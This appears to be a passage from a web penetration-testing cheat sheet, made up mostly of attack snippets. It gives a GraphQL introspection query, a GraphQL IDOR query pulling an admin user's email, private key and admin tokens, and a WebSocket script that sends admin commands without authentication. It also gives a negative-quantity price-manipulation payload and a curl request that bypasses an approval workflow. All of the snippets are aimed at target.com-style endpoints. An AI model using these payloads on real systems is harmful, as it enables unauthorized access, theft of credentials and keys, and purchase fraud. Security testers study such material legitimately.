 **GraphQL Exploitation**:
```graphql
# Introspection query to map schema
query IntrospectionQuery {
  __schema {
    queryType { name }
    types {
      name
      fields {
        name
        type { name }
      }
    }
  }
}

# IDOR through GraphQL
query {
  user(id: "admin") {
    email
    privateKey
    adminTokens
  }
}
```

**WebSocket Security Testing**:
```javascript
// WebSocket authentication bypass
var ws = new WebSocket('wss://target.com/admin-ws');
ws.onopen = function() {
    // Send admin commands without authentication
    ws.send(JSON.stringify({
        "action": "get_all_users",
        "token": "bypass"
    }));
};
```

**Business Logic Exploitation Examples**:

**Price Manipulation**:
```python
# Negative quantity purchase
payload = {
    "item_id": "premium_item",
    "quantity": -1,
    "price": 100
}
# Result: Credit applied instead of charge
```

**Workflow Bypass**:
```bash
# Skip approval workflow by manipulating state
curl -X POST https://target.com/api/documents/123/approve \
  -H "X-Workflow-State: bypass" \
  -d '{"status": "approved", "bypass_approval": true}'
```
